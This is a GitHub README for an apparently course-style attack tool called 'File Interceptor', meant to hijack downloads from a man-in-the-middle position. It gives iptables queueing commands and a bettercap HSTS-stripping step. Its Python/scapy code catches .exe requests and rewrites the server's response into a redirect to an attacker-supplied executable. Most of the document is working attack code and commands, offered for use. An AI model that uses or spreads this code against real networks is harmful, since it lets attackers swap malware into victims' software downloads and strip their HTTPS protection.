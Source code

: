 # File Interceptor

## Main mission is to hijack downloads.

We will try to intercept target downloads and replace them with our file.

Requires being a MiTM machine.

```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
Delete the iptable rule when done
```bash
iptables --flush
```

### To test on local machine use these commands
```bash
iptables -I OUTPUT -j NFQUEUE --queue_num 0
iptables -I INPUT -j NFQUEUE --queue_num 0

# When done
iptables --flush
```

### To run with SSLStrip
Start bettercap caplet hstshijack and then we
have to use different forwarding rules because
traffic is routed through bettercap. We need
to modify our code to use port 8080 rather than 80.
```bash
iptables -I INPUT -j NFQUEUE --queue-num 0
iptables -I OUTPUT -j NFQUEUE --queue-num 0
bettercap -iface eth0 -caplet hstshijack/hstshijack
```
Code to change:
```python
def process_packet(packet):
    scapy_packet = IP(packet.get_payload())  # Transform raw packet to scapy.
    if scapy_packet.haslayer(Raw):  # Checking if a packet has a Raw response on the TCP layer.
        if scapy_packet[TCP].dport == 8080:  # dport is incoming
            print("HTTP Request")
            if b".exe" in scapy_packet[Raw].load and b"192.168.1.4" not in scapy_packet[Raw].load:  # Is there an exe is the http data?
                print("[+] exe Request")
                ack_list.append(scapy_packet[TCP].ack)

        elif scapy_packet[TCP].sport == 8080:  # sport is outgoing
            print("HTTP Response")
            if scapy_packet[TCP].seq in ack_list:
                ack_list.remove(scapy_packet[TCP].seq)
                print("[+] Replacing File")  # Replacing the status with a redirect to our file.
                modified_packet = set_load(scapy_packet,
                                           ("HTTP/1.1 301 Moved Permanently\n"
                                            "Location: http://www.example.org/eggsde.exe\n\n")
                                           )
                packet.set_payload(bytes(modified_packet))  # Put packet back into regular form.

```